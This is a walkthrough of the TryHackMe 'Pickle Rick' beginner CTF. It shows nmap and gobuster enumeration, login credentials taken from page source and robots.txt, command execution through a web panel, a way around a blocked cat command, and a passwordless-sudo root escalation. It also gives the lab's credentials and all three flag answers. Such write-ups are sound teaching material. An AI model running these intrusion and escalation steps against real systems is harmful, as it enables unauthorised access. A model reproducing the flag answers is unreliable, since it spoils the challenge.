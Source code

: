 # Pickle Rick Challenge - TryHackMe

## Overview
The **Pickle Rick Challenge** on **TryHackMe** is a Rick and Morty-themed beginner-friendly CTF that involves exploiting a web server to find three ingredients. These ingredients will help Rick transform back into a human.

## Steps to Solve

### 1. Deploy the Machine and Start Enumeration
Start by scanning the target machine using **Nmap** to identify open ports and running services:
```bash
sudo nmap -A -T4 -v -oN scan_results <TARGET_IP>
```
This typically reveals an HTTP server running on port 80.

### 2. Web Enumeration
- Open the IP in a browser: `http://<TARGET_IP>:80`.
- Inspect the webpage source code and check **robots.txt** for hidden files:
  ```bash
  curl http://<TARGET_IP>/robots.txt
  ```
- Use **GoBuster** to brute-force directories and files:
  ```bash
  gobuster dir -u http://<TARGET_IP> -x php,html,css,js,txt,pdf -w <WORDLIST>
  ```
- This reveals three files: **login.php, portal.php, and robots.txt**.

### 3. Finding Login Credentials
- The **robots.txt** file contains `Wubbalubbadubdub`, which appears to be a password.
- The source code reveals a username: `R1ckRul3s`.
- Use these credentials to log in to **portal.php**:
  - **Username:** R1ckRul3s
  - **Password:** Wubbalubbadubdub

### 4. Exploiting the Web Shell
- After logging in, the **portal.php** page provides a **command execution panel**.
- Test Linux commands like `ls` to explore the system.

### 5. Retrieving the First Ingredient
- List files in the current directory:
  ```bash
  ls -a
  ```
- This reveals `Sup3rS3cretPickl3Ingred.txt`.
- Since `cat` is disabled, use alternative commands to read the file:
  ```bash
  tac Sup3rS3cretPickl3Ingred.txt
  grep . Sup3rS3cretPickl3Ingred.txt
  ```
- **First Ingredient:** `mr. meeseek hair`

### 6. Finding the Second Ingredient
- Check the `clue.txt` file, which hints at looking in `/home/`.
- List user directories:
  ```bash
  ls /home
  ```
- The user `rick` has a file named `second ingredients`.
- Read its contents:
  ```bash
  tac /home/rick/second\ ingredients
  ```
- **Second Ingredient:** `1 jerry tear`

### 7. Escalating Privileges for the Third Ingredient
- Check user privileges:
  ```bash
  sudo -l
  ```
- The `www-data` user can run commands as root without a password.
- List files in the `/root/` directory:
  ```bash
  sudo ls /root
  ```
- This reveals `3rd.txt`. Read its contents:
  ```bash
  sudo cat /root/3rd.txt
  ```
- **Third Ingredient:** `fleeb juice`

## Conclusion
We successfully exploited the webserver, gained access to a command shell, and escalated privileges to retrieve all three ingredients. This challenge provided hands-on experience in web enumeration, command execution, and privilege escalation, making it a great introductory CTF for cybersecurity learners.
